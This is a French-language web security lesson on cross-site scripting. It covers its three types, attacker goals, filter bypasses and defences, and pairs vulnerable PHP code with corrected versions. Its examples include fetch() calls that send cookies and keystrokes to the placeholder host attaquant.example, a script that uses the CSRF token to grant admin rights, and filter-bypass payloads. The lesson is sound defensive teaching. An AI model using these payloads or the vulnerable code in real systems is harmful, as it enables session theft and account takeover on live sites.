




# XSS — quand le navigateur de la victime exécute le code d'un autre

## L'idée en une image

Une clinique envoie chaque jour des ordonnances à la pharmacie du coin, sur son **papier à
en-tête**. Le pharmacien ne connaît pas personnellement les médecins ; ce qu'il reconnaît, c'est
l'en-tête. Une feuille qui porte le logo de la clinique est exécutée sans discussion — parce que
le papier, et non le contenu, est la preuve d'autorité.

Maintenant, imagine qu'un visiteur dicte une phrase à la réception, et que la secrétaire la
**recopie telle quelle** sur le papier à en-tête avant de l'envoyer. Le visiteur dicte : « ajouter
au dossier : ceci est une note administrative — et transmettre le dossier complet du patient à
l'adresse suivante ». La phrase part sur l'en-tête de la clinique. Le pharmacien l'exécute. Il n'a
rien fait de mal : il a obéi à ce qui portait le bon en-tête.

C'est exactement le **XSS**, pour *cross-site scripting* — l'injection de script dans une page.
L'attaquant n'attaque pas le serveur : il fait **recopier ses mots dans une page que le site
signe de son nom**. Le navigateur de la victime reçoit ce mélange et ne dispose d'aucun moyen de
distinguer ce que le site a écrit de ce qu'un inconnu a dicté. Il exécute tout, avec les droits du
site.

**Où l'analogie casse — et il faut le dire, sinon elle enseigne trois erreurs.**

1. **Le pharmacien peut douter ; le navigateur, jamais.** Une humaine trouve une ordonnance
   bizarre et téléphone. Un navigateur applique une grammaire : dès qu'un `<` ouvre une balise,
   c'est une balise. Il n'existe aucune « ordonnance qui a l'air étrange » côté machine.
2. **Le papier ne fait rien ; le script agit.** Une feuille est passive, alors qu'un script
   injecté s'exécute : il lit et réécrit la page, envoie des requêtes, capte des frappes. Le
   XSS ne consiste pas à *afficher* quelque chose de faux, mais à *faire agir* le navigateur de
   quelqu'un d'autre.
3. **Personne ne falsifie l'en-tête de l'extérieur — c'est la clinique elle-même qui recopie.**
   C'est le point le plus important, et le plus contre-intuitif : la protection dont dispose le
   navigateur, la *same-origin policy* — la règle qui interdit à une page d'un site de lire le
   contenu d'un autre site — fonctionne parfaitement ici. Elle protège l'origine contre
   l'extérieur ; elle ne protège pas une origine contre **son propre contenu corrompu**.

## Le pont avec le module précédent

Tu as vu au module 03 qu'une **injection** naît quand une donnée entre dans le même flux que les
instructions, et qu'un interpréteur relit l'ensemble sans savoir où finit l'une et où commence
l'autre. Le XSS est **exactement la même faute**, avec deux différences qui changent tout le
reste : l'interpréteur n'est pas le moteur de base de données mais **le navigateur d'une autre
personne**, et le moment où l'on corrige n'est plus l'envoi de la requête mais **l'écriture dans
la page**.

| Ce qu'on compare | Injection SQL (module 03) | XSS (ce module) |
|---|---|---|
| Interpréteur trompé | le moteur de base de données, sur **ton** serveur | le navigateur de la **victime** |
| Langage injecté | SQL | HTML et JavaScript |
| Ce qui bascule la donnée en code | un guillemet qui ferme une chaîne trop tôt | un `<` qui ouvre une balise |
| Moment de la parade | quand la requête part vers la base | quand la donnée est écrite dans la page |
| Nom de la parade | séparation des canaux (requête paramétrée) | encodage de sortie, selon le contexte |
| Victime immédiate | les données de l'application | la session et l'écran d'un autre utilisateur |

Retiens la dernière ligne : c'est elle qui rend le XSS moralement différent. Une injection SQL
vole *tes* données. Un XSS se sert de *tes* pages pour attaquer *tes utilisateurs*, un par un, et
c'est ton nom de domaine qui apparaît dans leur barre d'adresse pendant que ça se produit.

## Ce que la séance 7 enseigne, et ce que cette leçon ajoute

::: cours
La séance 7 du cours 420-B10-HU (millésime 2026) consacre au XSS **treize diapositives**
(20 à 32), dont six sont entièrement en captures d'écran. Ce qui y est enseigné : le **principe**
(du code envoyé par un utilisateur et exécuté chez les autres), les **usages typiques d'un
attaquant** (modifier le lien d'une balise de lien, voler les cookies et les envoyer au pirate
par une requête AJAX, agir au nom d'un utilisateur authentifié), une **démonstration complète
d'un XSS stocké** sur le corrigé du cours 5 de PHP, la parade **`htmlspecialchars()`**, et la
règle **« encoder à l'affichage, pas à l'insertion »**.
:::

::: complement
Ce que cette leçon ajoute, et qui n'est **pas exigible à l'examen 2026** : la taxonomie
réfléchi / stocké / basé sur le DOM, le XSS basé sur le DOM et le vocabulaire *source* / *sink*,
la Content-Security-Policy, la bibliothèque DOMPurify, l'encodage **contextuel** (un encodage
différent par contexte de sortie) et l'attribut de cookie `HttpOnly`. C'est de la matière juste et
professionnellement centrale — elle sert en stage et en emploi, pas à l'examen du 30 octobre.
:::

::: complement
À savoir avant de réviser : la page d'exercices de la séance 7 est **vide** (titre seul, constat
de la fiche source revérifié le 2026-08-19), alors que la séance 1 annonce que l'examen sort des
notes **et des exercices**. Les exercices XSS que tu croiseras dans la fiche source — le
laboratoire DVWA, le faux formulaire de connexion, l'élévation de privilège Laravel — viennent
tous de l'**édition antérieure** du cours. À lire pour la méthode, pas pour réviser.
:::

**La règle d'arbitrage, la même que dans tout ce cours :** *à l'examen, donne la réponse du
cours ; en production, applique la correction.* Cette leçon montre les deux et dit laquelle sert
où ; elle n'efface jamais la version du cours.

## Le principe : une injection dans le navigateur

::: cours
Le cours énonce le mécanisme ainsi : un utilisateur parvient à faire enregistrer du code par le
site, et ce code est ensuite **exécuté chez les autres visiteurs**. Les cibles typiques citées
sont les médias sociaux, les forums et les avis de commerce en ligne — partout où un texte écrit
par un visiteur est réaffiché à d'autres.
:::

Décomposons ce qui se passe réellement, en trois temps.

**Temps 1 — l'application fabrique du HTML par concaténation.** Une page de liste écrit
`<td>`, puis colle la valeur lue en base, puis écrit `</td>`. Tant que la valeur est
`Tremblay`, la page produite est celle qu'on attendait.

**Temps 2 — la valeur contient du balisage.** Si la valeur vaut `<script>alert("demo")</script>`,
la page produite contient une **balise**, pas du texte. Le serveur, lui, n'a rien remarqué : il a
collé des octets entre deux autres octets, ce qui est son travail.

**Temps 3 — le navigateur de la victime analyse la page.** Il lit le flux d'octets, rencontre
`<script`, ouvre un élément de script et **exécute son contenu**. Il n'a aucune trace de
provenance : rien, dans le HTML reçu, ne dit « ces 30 caractères venaient d'un champ de
formulaire ». L'information de provenance a été perdue au temps 1, définitivement.

Ce qui rend l'attaque grave n'est pas le JavaScript en soi — n'importe qui peut exécuter du
JavaScript dans son propre navigateur, il suffit d'ouvrir la console. C'est l'**origine** dans
laquelle il s'exécute. Une origine, c'est le triplet *schéma + domaine + port* (par exemple
`https://banque.example:443`) ; c'est l'unité de cloisonnement du navigateur. Un script **qui
s'exécute dans une page de** `evil.example` ne peut ni lire les cookies, ni lire le contenu de
`banque.example`. Un
script **injecté à l'intérieur** de `banque.example` s'exécute, lui, *comme s'il appartenait à
banque.example*.



**Où le XSS se situe dans les classements de l'industrie.** Le XSS n'a plus de catégorie à lui
depuis le Top 10 de l'OWASP de 2021 : il y est fondu dans la catégorie **Injection**, classée A03
en 2021 et A05 dans le millésime 2025. Ce recul de rang ne signifie pas que la faille a disparu —
au contraire. L'OWASP compte plus de 30 000 CVE de XSS (CWE-79) dans cette catégorie et explique
le recul ainsi : ce très grand nombre de vulnérabilités à faible impact unitaire fait **baisser
l'impact moyen pondéré** de la catégorie Injection. Le XSS reste donc très fréquent ; c'est
l'impact moyen attribué à la catégorie qui a baissé.

## Les trois familles de XSS

::: complement
Cette taxonomie n'est **pas** celle du cours. Le millésime 2026 ne nomme ni « réfléchi », ni
« stocké », ni « DOM » : il décrit **un seul** scénario — un champ utilisateur republié aux
autres visiteurs — qui est du XSS stocké, et le démontre. Les trois familles sont données ici
parce qu'elles sont la grammaire standard du sujet et qu'un employeur les emploiera, mais seule
la deuxième est matière d'examen.
:::

### XSS réfléchi — le payload voyage dans l'URL

Le *payload*, ou **charge utile** — la donnée forgée par l'attaquant — voyage dans la requête
(paramètre d'URL, corps de formulaire, en-tête) et revient **tel quel** dans la réponse HTML. Il
ne persiste nulle part : rien n'est écrit en base. Il faut donc que la victime **clique un lien
forgé**, envoyé par courriel ou par messagerie.

Une page vulnérable minimale, en PHP : `echo 'Hello ' . $_GET['name'];`. Le lien forgé porte
alors le paramètre `?name=<script>alert("hello")</script>`, encodé pour l'URL. La victime clique,
le serveur recopie le paramètre dans la page, le navigateur exécute.

Deux conséquences pratiques : la charge est **visible dans la barre d'adresse** — un utilisateur
attentif peut la repérer —, et l'attaque doit être **rejouée pour chaque victime**, puisque rien
n'est stocké.

### XSS stocké — la charge attend en base

::: cours
C'est le seul type que le cours démontre, et c'est le plus dangereux des trois.
:::

La charge utile est **persistée** côté serveur (base de données, fichier) et réinjectée à
**chaque visiteur** de la page concernée, sans aucune action de sa part. Un seul dépôt touche donc
potentiellement tous les visiteurs — y compris des comptes à privilèges : un administrateur qui
consulte une liste publique exécute la charge comme tout le monde, avec **sa** session à lui.

Voici le déroulé complet, celui que la simulation de la fin de leçon rejoue pas à pas.



Deux remarques qui décident de la compréhension, et qu'on manque souvent.

**L'étape 2 est parfaitement sûre.** La requête d'insertion peut être paramétrée dans les règles :
il n'y a **aucune injection SQL** dans cette attaque. La base fait son travail — elle stocke la
chaîne qu'on lui a donnée, y compris ses chevrons. La faute est à l'étape 7, à l'affichage, dans
un fichier que personne ne regardait.

**L'étape 8 se produit chez quelqu'un d'autre.** L'attaquant a fermé son navigateur depuis
longtemps. C'est pourquoi un XSS stocké se découvre souvent par ses effets — des sessions
compromises — bien avant qu'on trouve le champ par lequel il est entré.

### XSS basé sur le DOM — le serveur ne voit jamais rien

::: complement
Absente du cours, cette famille est pourtant celle qui échappe le plus aux outils d'analyse
côté serveur. Vaut le détour même si elle ne tombera pas à l'examen.
:::

Ici, **aucun aller-retour serveur**. Le JavaScript **légitime** de la page lit lui-même une
donnée contrôlée par l'attaquant — appelée la **source** — et l'insère dans la page par une
fonction dangereuse — appelée le **sink**, le « point d'écoulement ». Le serveur ne participe
pas : la vulnérabilité est à 100 % dans le code client.

- **Sources courantes** : `location.hash`, `location.search`, `document.referrer`,
  `window.name`, les données reçues par `postMessage`, `document.cookie`.
- **Sinks dangereux courants** : `innerHTML`, `outerHTML`, `document.write()`, `eval()`,
  `setTimeout` avec une chaîne, `new Function(...)`, `insertAdjacentHTML`.

La particularité qui rend cette famille redoutable tient au **fragment** d'une URL — tout ce qui
suit le `#`. Le fragment **n'est jamais transmis au serveur** : c'est une information purement
locale au navigateur. Une charge utile placée là ne figure donc dans **aucun journal serveur** et
n'est vue par **aucun pare-feu applicatif**.



## Ce qu'un attaquant fait vraiment

::: cours
Le cours nomme trois usages types : **modifier le lien d'une balise d'ancre** pour détourner un
clic, **voler les cookies** et les envoyer au pirate par une requête AJAX, et **agir au nom d'un
utilisateur authentifié**. Il introduit `alert()` comme preuve de concept — pas comme attaque.
:::

::: complement
Les charges détaillées ci-dessous et les scénarios complets sont des ajouts de la base de
connaissances. Le principe des trois usages, lui, est bien celui du cours.
:::

Un `alert()` ne fait rien de mal : il **prouve** l'exécution, ce qui est déjà tout. À partir de là,
un script injecté a accès à **tout ce que peut faire un script légitime de la page**.

**Vol de session.** D'abord confirmer que le cookie est lisible avec
`alert(document.cookie)`, puis l'exfiltrer sans que la victime voie quoi que ce soit :

```typescript
// Charge utile d'exfiltration — exemple pédagogique, domaine fictif
fetch('https://attaquant.example/collecte?c=' + document.cookie);
```

Rien ne s'affiche, aucune page ne change : la requête part en arrière-plan. C'est l'attribut de
cookie `HttpOnly` qui coupe précisément cette étape, en retirant le cookie de `document.cookie` —
et **seulement** cette étape.

**Enregistrement des frappes.** Le script pose un écouteur et exfiltre en continu :

```typescript
document.addEventListener('keydown', (e) => {
  fetch('https://attaquant.example/log?k=' + e.key);
});
```

**Hameçonnage injecté.** Puisque le script contrôle le DOM, il peut **remplacer** le contenu de
la page par un faux formulaire de connexion pointant vers le serveur de l'attaquant. La victime
croit sa session expirée, ressaisit ses identifiants, et les envoie à l'attaquant depuis une page
dont l'adresse est parfaitement légitime. C'est l'exercice le plus parlant de l'**édition
antérieure** du cours (deck `8-Introduction_au_XSS`, diapo 15) — **pas au programme 2026**, dont
la page d'exercices de la séance 7 est vide : il montre que le contrôle offert par un XSS **n'a
pas de limite fonctionnelle**.

**Requêtes authentifiées — et pourquoi un token anti-CSRF n'aide pas.** C'est le cas le plus
avancé. Le script injecté n'a même pas besoin du cookie : il appelle l'API de l'application
**depuis la page**, donc avec la session active de la victime, cookie envoyé automatiquement par
le navigateur.

```typescript
const token = document.getElementsByName('_token')[0].value;
fetch('/admin/', {
  method: 'POST',
  body: `_token=${token}&userid=2&admin=1`,
  headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
});
```

Un token anti-CSRF correctement posé **ne protège rien ici**, et la raison mérite d'être sue par
cœur : ce token défend contre une requête forgée **depuis un site tiers**, alors que ce script
s'exécute **à l'intérieur** du site, dans la page même où le token est affiché. Il le lit
légitimement. Autrement dit : **un XSS rend caduque toute défense CSRF**, parce qu'il travaille à
l'intérieur du périmètre que ces défenses protègent. Le module 05 traite le CSRF pour lui-même.

## Pourquoi filtrer les entrées ne suffit pas

::: correction-du-cours {source="OWASP Cross Site Scripting Prevention Cheat Sheet (encodage de sortie en première ligne, validation d'entrée en complément), vérifiée dans la fiche KB web/securite/xss-cross-site-scripting.md le 2026-08-02"}
Une partie des notes de cours sur la validation des entrées (constat de la fiche source, non
localisé à une diapositive de la séance 7) cadre encore la défense anti-XSS en termes de **liste
noire** (motifs interdits comme `<script>` ou `javascript:`) opposée à une **liste blanche**
(caractères autorisés). Le cadrage est dépassé pour le XSS spécifiquement : la
défense de première ligne n'est pas un filtre d'entrée, c'est l'**encodage en sortie**. À
l'examen, si la question porte sur « liste noire ou liste blanche », réponds ce que le cours
attend ; en production, encode d'abord, et garde la validation d'entrée comme second rideau.
:::

Pourquoi une liste noire échoue toujours : HTML et JavaScript offrent un nombre pratiquement
illimité de syntaxes équivalentes. L'auteur du filtre doit toutes les prévoir ; l'attaquant n'a
besoin que d'une seule oubliée.

| Filtre naïf | Contournement |
|---|---|
| Bloque la chaîne `<script>` | casse mélangée `<ScRipT>`, ou aucune balise de script du tout : `` |
| Bloque `<script` sans tenir compte de la casse | `<svg onload=alert(1)>`, `<body onload=alert(1)>`, `<iframe src=javascript:alert(1)>` |
| Bloque les gestionnaires connus (`onerror`, `onload`) | il en existe des dizaines d'autres — `onfocus`, `onmouseover`, `onanimationstart`… |
| Bloque `javascript:` dans une URL | `data:` (encore utile dans certains contextes ; la navigation de premier niveau vers `data:` est bloquée par les navigateurs depuis 2017-2018), casse mélangée `JaVaScRiPt:`, caractères de contrôle insérés |
| Supprime les balises `<script>` et `</script>` en une passe | `<scr<script>ipt>alert(1)</scr</script>ipt>` redevient valide après une suppression non récursive |

Regarde la dernière ligne : le filtre **fabrique** la balise en retirant celle du milieu. Un
nettoyage qui n'est pas récursif peut donc rendre dangereuse une chaîne qui ne l'était pas. C'est
le même patron que la liste noire refusée en revue de code dans ce dépôt : sur un format
structuré, on **analyse** et on confronte à une liste blanche, on n'apparie jamais des motifs.

## Les défenses, dans l'ordre de priorité

### 1. Encoder la sortie, dans le contexte où la donnée atterrit

::: cours
La parade enseignée est `htmlspecialchars()` : la fonction PHP qui remplace les caractères ayant
un sens en HTML par leurs **entités**. `<` devient `&lt;`, `>` devient `&gt;`, `&` devient
`&amp;`, et les guillemets sont traités selon les drapeaux passés. Le navigateur affiche alors le
caractère et **n'ouvre aucune balise**.
:::

Le principe général, dont `htmlspecialchars()` est un cas particulier : **encoder la donnée juste
avant de l'écrire, et selon les règles du contexte précis où elle atterrit**. Un encodage HTML ne
protège pas un contexte JavaScript, et réciproquement — c'est l'erreur la plus fréquente d'une
défense « à moitié faite ».



**Les frameworks modernes encodent par défaut.** Blade (`{{ }}`), Razor, React et Angular
échappent automatiquement ce qu'on leur donne à afficher. Chacun garde cependant une **porte de
sortie volontaire** qui désactive cette protection — `{!! !!}` en Blade, `Html.Raw` en Razor,
`dangerouslySetInnerHTML` en React, `bypassSecurityTrustHtml` en Angular. Ces portes existent pour
du HTML **déjà assaini**, jamais pour une entrée utilisateur brute.

### 2. Encoder à l'affichage, jamais à l'insertion

::: cours
Point sur lequel le cours 2026 insiste : `htmlspecialchars()` s'appelle au moment d'**afficher**,
pas au moment d'**écrire en base**.
:::

L'erreur est très répandue parce que le résultat *semble* identique. Il ne l'est pas, pour trois
raisons cumulatives.

1. **La base ne contient plus la donnée, mais une de ses représentations.** `L'été & 3 < 5` s'y
   retrouve stocké sous forme d'entités. Toutes les fonctions qui traitent du texte s'en trouvent
   faussées : recherches `LIKE`, tris alphabétiques, calculs de longueur, exports CSV, clients
   mobiles. Et le **double encodage** devient inévitable dès qu'un développeur ré-encode
   correctement à l'affichage : `&amp;amp;` s'affiche alors à l'écran.
2. **Le contexte de sortie n'est pas connu à l'insertion.** La même valeur peut finir dans un
   corps HTML, un attribut, une chaîne JavaScript, une URL, un PDF ou un courriel en texte brut —
   et le diagramme ci-dessus montre qu'ils n'exigent pas le même encodage. Encoder à l'entrée fige
   un choix pour tous les contextes futurs, y compris ceux qui n'existent pas encore.
3. **Ça ne protège pas.** C'est l'argument central du cours, et il vaut la peine d'être suivi
   lentement. Si l'application est vulnérable **ailleurs** — une injection SQL, un import de
   données, une tâche planifiée, un autre service qui écrit dans la même table — du HTML non
   encodé entre en base **sans passer par le point d'insertion « propre »**, et ressort tel quel à
   l'affichage. Une injection SQL se transforme alors en XSS stocké : deux failles chaînées à
   partir d'une seule mauvaise habitude d'encodage.

Règle à retenir : **la base stocke la donnée brute, la vue encode.** Corollaire pour la revue de
code : un `htmlspecialchars()` situé dans un contrôleur ou un modèle est un **signal d'alarme**,
pas un signe de rigueur.

### 3. Assainir, quand il faut vraiment accepter du HTML

::: complement
Absent du cours, qui ne distingue pas « échapper » et « assainir ». Ce sont pourtant deux besoins
différents.
:::

Un éditeur de texte enrichi, un commentaire avec du gras et des listes : l'encodage pur ne
convient plus, puisqu'il afficherait `<b>` au lieu de mettre en gras. Il faut alors
**analyser le HTML et ne conserver qu'un sous-ensemble de balises et d'attributs autorisés** —
jamais une expression régulière maison, qui échoue exactement comme les listes noires plus haut.
La référence de fait est **DOMPurify** : `element.innerHTML = DOMPurify.sanitize(htmlEntrant);`.

Deux points de vigilance : la bibliothèque doit être **tenue à jour**, parce que de nouveaux
contournements sont trouvés régulièrement — notamment le **mXSS**, ou *mutation XSS*, où le
navigateur lui-même réinterprète un HTML pourtant « propre » d'une façon inattendue. Et l'API
navigateur **Trusted Types** (disponible dans tous les navigateurs majeurs depuis février 2026),
combinée à DOMPurify, va plus loin en interdisant au niveau du moteur JavaScript qu'une chaîne
brute soit assignée à un sink dangereux.

### 4. La Content-Security-Policy, filet de sécurité

::: complement
Jamais mentionnée par le cours, aucune séance. C'est pourtant la défense en profondeur standard
de l'industrie contre le XSS depuis plus d'une décennie — et le site que tu lis en applique une.
:::

La CSP est un en-tête HTTP par lequel le site **déclare au navigateur** ce qu'il a le droit
d'exécuter et de charger. Même si une injection réussit, une CSP bien réglée peut empêcher le
script injecté de démarrer :

```bash
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'self'
```

- **`script-src 'self'`** : seuls les scripts servis par le site lui-même s'exécutent ; un script
  externe injecté est bloqué. Un script **en ligne**, écrit directement dans la page, l'est aussi
  — sauf s'il porte un **nonce** (un jeton aléatoire régénéré à chaque réponse, que l'attaquant ne
  peut pas deviner) ou si son **empreinte** figure dans la politique.
- **`object-src 'none'`** : ferme les vecteurs `<object>` et `<embed>`.
- **`'unsafe-inline'`** annule l'essentiel de la protection : à ne pas écrire, sauf en phase de
  migration avec `Content-Security-Policy-Report-Only` pour observer sans bloquer.

**Ce que la CSP ne fait pas.** Elle ne remplace pas l'encodage, et elle rattrape mal le XSS basé
sur le DOM : la charge passe par un script que la politique autorise déjà. La parade de niveau
CSP pour ce cas s'appelle `require-trusted-types-for 'script'`. Et l'exfiltration par `fetch`
n'est bloquée que si la directive `connect-src` — ou, à défaut,
`default-src` dont elle hérite — restreint les destinations réseau.

### 5. `HttpOnly` : limiter l'impact, pas la cause

::: complement
Absent du cours ; l'attribut `HttpOnly` n'est pas exigible à l'examen 2026 — le module 11 y
revient.
:::

L'attribut de cookie `HttpOnly` retire le cookie de `document.cookie`. Un script injecté n'a alors
plus rien à exfiltrer **pour ce cookie précis** — mais il continue de s'exécuter avec tous ses
autres pouvoirs : hameçonnage, requêtes authentifiées, défiguration. C'est une défense ciblée et
efficace contre **un vecteur**, jamais contre le XSS. Le module 11 y revient.

### 6. Valider les entrées, en complément

::: cours
Le cours place la validation d'entrée parmi les protections, et elle y a sa place : rejeter tôt
une entrée absurde réduit la surface d'attaque.
:::

Mais elle ne dispense jamais d'encoder à la sortie, et la raison est concrète : un champ « nom de
liste » doit accepter des apostrophes, des accents, parfois des chevrons dans un usage légitime
(« Livres < 300 pages »). Filtrer à l'entrée casse des cas d'usage valides **sans** supprimer le
risque, puisque celui-ci ne se matérialise qu'à l'affichage.

## Exemple simple

Le mécanisme isolé, sans rien autour : une page qui salue un visiteur avec un nom lu dans l'URL.
C'est la forme la plus dépouillée du XSS réfléchi.

:::: comparaison
::: vulnerable
```php
$nom = $_GET['nom'];
echo 'Bonjour ' . $nom;
```
{lignes="1"} La valeur vient de l'URL. Elle est suspecte non par son contenu, mais par son
**origine** : c'est le client qui l'écrit, en entier, sans passer par la page.

{lignes="2"} La faute est ici et nulle part ailleurs. La valeur atteint le flux HTML **sans
encodage** : tout balisage qu'elle contient sera interprété comme du balisage. Avec `nom` valant
`<script>alert("demo")</script>`, la page servie contient une vraie balise de script.
:::
::: corrige
```php
$nom = $_GET['nom'];
echo 'Bonjour ' . htmlspecialchars($nom, ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, 'UTF-8');
```
{lignes="1"} La ligne n'a pas changé, et c'est voulu : on **ne filtre pas** l'entrée. La donnée
reste ce que le visiteur a écrit.

{lignes="2"} L'encodage a lieu au dernier moment, à l'affichage. `<` devient `&lt;` : le
navigateur affiche le caractère et n'ouvre aucune balise. Le visiteur qui s'appelle vraiment
`Jean <le grand>` voit son nom correctement, ce qu'un filtre d'entrée lui aurait refusé.

{lignes="2"} Les drapeaux ne sont pas décoratifs. `ENT_QUOTES` encode **les deux** sortes de
guillemets, indispensable si la valeur atterrit un jour dans un attribut ; `ENT_HTML5` choisit le
jeu d'entités ; le troisième argument fixe explicitement le jeu de caractères (à défaut, PHP prend
`default_charset`). Attention au piège : écrire les drapeaux à la main **remplace** le défaut de
PHP 8.1+, qui contient `ENT_SUBSTITUTE` — sans lui, une chaîne mal formée pour le jeu de
caractères indiqué fait renvoyer une **chaîne vide**. En production, écrire
`ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5`.
:::
::::

## Exemple complet

Trois situations, dans cet ordre : la démonstration exacte du cours, la même faute derrière un
moteur de gabarits moderne, puis le cas où le serveur n'est pas en cause du tout.

### 1. La démonstration de la séance 7

::: cours
Les diapositives 25 à 30 sont **entièrement en captures d'écran**. Le support est le corrigé du
**cours 5 de PHP** : un CRUD de clients affichant `ID CLIENT`, `PRENOM`, `NOM`, `COURRIEL` et
deux liens `MODIFIER` / `SUPPRIMER`. La diapositive 27 saisit une balise de script **dans le champ
NOM** du client n° 6, et rien d'autre. La 28 montre le rechargement de la liste : la boîte de
dialogue s'ouvre, et l'inspecteur du navigateur affiche la preuve structurelle — la cellule
contient une **balise**, pas du texte. Les diapositives 29 et 30 donnent la correction et son
résultat : la cellule affiche désormais le texte de la charge, et plus aucune boîte ne s'ouvre.
:::

:::: comparaison
::: vulnerable
```php
while ($ligne = $resultat->fetch_assoc()) {
    $id_client = $ligne['ID_CLIENT'];
    $prenom = $ligne['PRENOM'];
    $nom = $ligne['NOM'];
    echo "<tr><td>" . $id_client . "</td><td>" . $prenom . "</td><td>" . $nom . "</td>";
    echo "<td><a href='modifier_client.php?id_client=$id_client'>MODIFIER</a></td>";
    echo "<td><a href='supprimer.php?id_client=$id_client'>SUPPRIMER</a></td></tr>";
}
```
{lignes="4"} La valeur relue en base. Elle a été enregistrée par une requête sans doute
parfaitement paramétrée — il n'y a **aucune injection SQL** dans cette histoire. Le contenu du
champ `NOM` du client n° 6 est `<script>alert("demo")</script>`, et la base l'a stocké tel quel,
ce qui est son travail.

{lignes="5"} La faute. La valeur est concaténée dans le flux HTML sans encodage : la cellule
produite contient une balise de script véritable, que le navigateur exécute chez **chaque**
visiteur de la liste. C'est la ligne que la diapositive 29 corrige.

{lignes="6,7"} Ces deux lignes-là restent non corrigées à la diapositive 29, et c'est le trou
détaillé dans l'encadré ci-dessous : `$id_client` y est interpolé **brut**, à l'intérieur d'un
attribut délimité par des **apostrophes**.
:::
::: corrige
```php
while ($ligne = $resultat->fetch_assoc()) {
    $id_client = (int) $ligne['ID_CLIENT'];
    $prenom = htmlspecialchars($ligne['PRENOM'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, 'UTF-8');
    $nom = htmlspecialchars($ligne['NOM'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, 'UTF-8');
    echo "<tr><td>$id_client</td><td>$prenom</td><td>$nom</td>";
    echo "<td><a href=\"modifier_client.php?id_client=$id_client\">MODIFIER</a></td>";
    echo "<td><a href=\"supprimer.php?id_client=$id_client\">SUPPRIMER</a></td></tr>";
}
```
{lignes="2"} Un identifiant censé être numérique est **converti en entier**. C'est une liste
blanche de forme, appliquée au seul endroit où elle a du sens : sur une valeur dont le format est
strictement connu. Après cette ligne, `$id_client` ne peut plus contenir un seul caractère de
balisage.

{lignes="3,4"} L'encodage a lieu dans la vue, au moment de produire la page — pas au moment
d'écrire en base. La réponse attendue à l'examen est exactement celle-là : passer le contenu dans
`htmlspecialchars()` avant de l'afficher.

{lignes="6,7"} Les attributs passent en **guillemets doubles**, et cessent de dépendre du
comportement par défaut de `htmlspecialchars()` vis-à-vis de l'apostrophe. Le correctif de la
diapositive 29 s'arrêtait avant ces deux lignes.
:::
::::

